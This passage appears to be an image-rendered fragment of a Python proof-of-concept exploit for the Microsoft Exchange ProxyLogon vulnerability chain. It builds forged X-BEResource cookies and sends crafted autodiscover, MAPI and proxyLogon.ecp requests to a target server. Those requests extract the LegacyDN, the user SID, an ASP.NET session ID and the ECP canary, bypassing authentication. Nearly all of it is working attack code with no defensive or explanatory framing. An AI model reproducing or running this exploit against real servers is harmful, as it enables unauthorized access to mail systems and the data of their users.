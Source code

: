 ```python
        print("\033[31m[x] 获取失败")
        sys.exit(0)


def POC_2(target_url, Email, computer_name):
    payload = '''
<Autodiscover xmlns="http://schemas.microsoft.com/exchange/autodiscover/outlook/requestschema/2006">
    <Request>
         <EMailAddress>%s</EMailAddress>
        <AcceptableResponseSchema>http://schemas.microsoft.com/exchange/autodiscover/outlook/responseschema/2006a</AcceptableResponseSchema>
    </Request>
</Autodiscover>
    ''' % Email
    vuln_url = '/autodiscover/autodiscover.xml'
    headers = {
        'User-Agent': 'ExchangeServicesClient/0.0.0.0',
        'Content-Type': 'text/xml',
        'Cookie': 'X-BEResource=a]@{}:444{}?#~1941962753'.format(computer_name, vuln_url),
        'msExchLogonMailbox': 'S-1-5-20'
    }
    url = "https://{}/ecp/PeiQi.js".format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.post(url, headers=headers, data=payload, verify=False, allow_redirects=False)
    LegacyDN = re.findall(r'<LegacyDN>(.*?)</LegacyDN>', response.text)[0]
    print("\033[32m[o] LegacyDN: {}\033[0m".format(LegacyDN))

    vuln_url = '/mapi/emsmdb/'
    headers = {
        'X-Clientapplication': 'Outlook/15.0.4815.1002',
        'X-Requestid': 'x',
        'X-Requesttype': 'Connect',
        'Cookie': 'X-BEResource=a]@{}:444{}?#~1941962753'.format(computer_name, vuln_url),
        'Content-Type': 'application/mapi-http',
        'msExchLogonMailbox': 'S-1-5-20',
    }
    payload = LegacyDN + '\x00\x00\x00\x00\x00\x20\x04\x00\x00\x09\x04\x00\x00\x09\x04\x00\x00\x00\x00\x00\x00'
    url = "https://{}/ecp/PeiQi.js".format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.post(url, headers=headers, data=payload, verify=False, allow_redirects=False)
    SID = re.search('with SID ([S\-0-9]+) ', response.content).group(1)
    print("\033[32m[o] SID: {}\033[0m".format(SID))

    vuln_url = '/ecp/proxyLogon.ecp'
    payload = '<r at="NTLM" ln="%s"><s t="0">%s</s></r>' % (Email.split('@')[0], SID)
    headers = {
        'X-Clientapplication': 'Outlook/15.0.4815.1002',
        'X-Requestid': 'x',
        'X-Requesttype': 'Connect',
        'Cookie': 'X-BEResource=a]@{}:444{}?#~1941962753'.format(computer_name, vuln_url),
        'Content-Type': 'application/json',
        'msExchLogonMailbox': 'S-1-5-20',
    }
    url = "https://{}/ecp/PeiQi.js".format(target_url)
    requests.packages.urllib3.disable_warnings(InsecureRequestWarning)
    response = requests.post(url, headers=headers, data=payload, verify=False, allow_redirects=False)
    session_id = response.cookies.get('ASP.NET_SessionId')
    canary = response.cookies.get('msExchEcpCanary')
```